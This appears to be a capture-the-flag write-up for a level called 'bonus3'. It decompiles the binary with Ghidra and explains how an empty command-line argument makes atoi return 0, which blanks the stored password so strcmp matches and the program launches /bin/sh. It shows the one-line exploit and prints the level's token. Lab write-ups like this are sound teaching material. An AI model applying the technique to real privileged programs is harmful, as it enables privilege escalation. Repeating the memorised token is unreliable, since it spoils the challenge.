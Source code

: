 # Bonus3

1. Decompilation with Ghidra

    ```c
    undefined4 main(int param_1,int param_2)

    {
    undefined4 uVar1;
    int iVar2;
    char *pcVar3;
    byte bVar4;
    char local_98 [65];
    undefined1 local_57;
    char local_56 [66];
    FILE *local_14;
    
    bVar4 = 0;
    local_14 = fopen("/home/user/end/.pass","r");
    pcVar3 = local_98;
    for (iVar2 = 0x21; iVar2 != 0; iVar2 = iVar2 + -1) {
        pcVar3[0] = '\0';
        pcVar3[1] = '\0';
        pcVar3[2] = '\0';
        pcVar3[3] = '\0';
        pcVar3 = pcVar3 + ((uint)bVar4 * -2 + 1) * 4;
    }
    if ((local_14 == (FILE *)0x0) || (param_1 != 2)) {
        uVar1 = 0xffffffff;
    }
    else {
        fread(local_98,1,0x42,local_14);
        local_57 = 0;
        iVar2 = atoi(*(char **)(param_2 + 4));
        local_98[iVar2] = '\0';
        fread(local_56,1,0x41,local_14);
        fclose(local_14);
        iVar2 = strcmp(local_98,*(char **)(param_2 + 4));
        if (iVar2 == 0) {
        execl("/bin/sh","sh",0);
        }
        else {
        puts(local_56);
        }
        uVar1 = 0;
    }
    return uVar1;
    }
    ```

2. Vulnerability

    The program reads `/home/user/end/.pass` into two buffers:

    - `local_98` (65 bytes)
    - `local_56` (66 bytes)

    It does `fread(local_98,1,0x42,...)` — `0x42` = 66, so 66 bytes are read into a 65-byte buffer (off-by-one).
    Then `i = atoi(argv[1]); local_98[i] = '\0'; strcmp(local_98, argv[1])`.

    If `argv[1]` is an empty string `""`, `atoi("")` returns 0, `local_98[0] = '\0'`, and `strcmp(local_98, argv[1])` is true — the binary calls `execl("/bin/sh",...)`.

3. Exploit

    Run the program with an empty argument:

    ```bash
    ./bonus3 ""
    ```

4. Token

    The token is: `3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c`
